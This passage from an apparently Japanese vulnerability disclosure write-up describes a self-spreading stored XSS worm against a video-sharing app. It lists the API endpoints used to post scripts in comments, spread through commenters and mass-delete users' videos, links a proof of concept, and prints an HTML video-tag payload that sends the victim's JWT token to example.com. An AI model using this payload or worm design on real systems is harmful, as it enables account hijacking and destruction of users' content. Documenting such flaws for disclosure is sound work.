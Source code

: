 2.動画にスクリプトを投稿。被害拡大。

```php
/api/feed/comment/{commentTo}/{paramId}
```

3.ユーザーが動画を投稿しているなら指定された日付が過ぎた後に動画を一斉削除。

```php
/api/feed/profile/me/recent/{itemId}/{direction}
/api/feed/remove/{feedItemId}
```

4.コメント一覧に動画を投稿しているユーザーがいるなら  
 グラフ探索で更に被害を拡大していく。

```php
/public/feed/comments/{feedItemId}/{skip}/{sort}/cached.js
/api/feed/comment/{commentTo}/{paramId}
```

5.ユーザーが動画を投稿しているなら指定された日付が過ぎた後に動画を一斉削除。

```php
/api/feed/profile/me/recent/{itemId}/{direction}
/api/feed/remove/{feedItemId}
```

PoC[^3]

[^3]:
    https://gist.github.com/Lutwidse/d4fff3b428d01c373822d473fac8c72b  
    CORS を回避して攻撃をクライアント側で完結させるため、また投稿可能な文字数の超過を抑えるために、  
    スクリプトをチェーンとしてコメントに投稿した後に`eval`で受け取る方法を選んだ。

{{< youtube vUw7WFaTJ3g >}}

### 簡易的な攻撃シナリオ

[JWT の実装不備](#JWTの実装不備)から、攻撃者自身が自らリクエストを行うことが可能。

1.ユーザーのトークンを盗取する。

```html
<video>
  <source onerror=location=/\example.com/+localStorage.getItem("jwt_token")>
</video>
```

または指定の動画にトークンをコメントとして投稿させる。

```php
/api/feed/comment/{commentTo}/{paramId}
```

2.ユーザーに表示されるオススメ動画を取得。

```php
/api/feed/foryou
```

3.動画にスクリプトを投稿。被害拡大。


[^1]: [ダウンロード数](https://www.overwolf.com/app/fuze_tv-fuze_tv)より推定
[^2]: https://datatracker.ietf.org/doc/html/rfc6749#section-10.4
